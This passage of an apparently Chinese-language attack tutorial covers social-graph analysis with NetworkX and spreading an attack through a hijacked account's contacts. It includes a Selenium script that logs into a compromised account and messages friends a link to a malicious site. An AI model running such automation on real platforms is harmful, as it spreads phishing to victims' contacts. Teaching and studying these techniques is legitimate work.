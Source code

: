 ```python
if __name__ == '__main__':
    app.run(debug=True)
```

## 4. 高级利用技巧

### 4.1 社交图谱分析

攻击者通过分析用户的社交图谱，识别关键节点，实施精准攻击。

**工具使用：**
- 使用`Gephi`工具进行社交图谱分析。
- 使用`NetworkX`库进行社交图谱分析。

**代码示例：**
```python
import networkx as nx
import matplotlib.pyplot as plt

G = nx.Graph()
G.add_edges_from([(1, 2), (1, 3), (2, 4), (3, 4), (4, 5)])

nx.draw(G, with_labels=True)
plt.show()
```

### 4.2 关系链扩散

攻击者通过劫持一个用户的社交关系链，进一步扩散攻击，影响更多用户。

**攻击步骤：**
1. 劫持一个用户的社交关系链。
2. 通过劫持的关系链，向更多用户发送恶意链接或信息。

**实验环境搭建：**
- 使用`Selenium`自动化工具模拟用户互动。
- 使用`Flask`框架搭建恶意网站。

**代码示例：**
```python
from selenium import webdriver
import time

driver = webdriver.Chrome()
driver.get('https://social-platform.com/login')

# 登录劫持的账号
username = driver.find_element_by_name('username')
password = driver.find_element_by_name('password')
username.send_keys('hijacked_user')
password.send_keys('hijacked_password')
driver.find_element_by_name('login').click()

# 向好友发送恶意链接
driver.get('https://social-platform.com/messages')
driver.find_element_by_name('message').send_keys('Check this out: http://malicious-site.com')
driver.find_element_by_name('send').click()

time.sleep(5)
driver.quit()
```
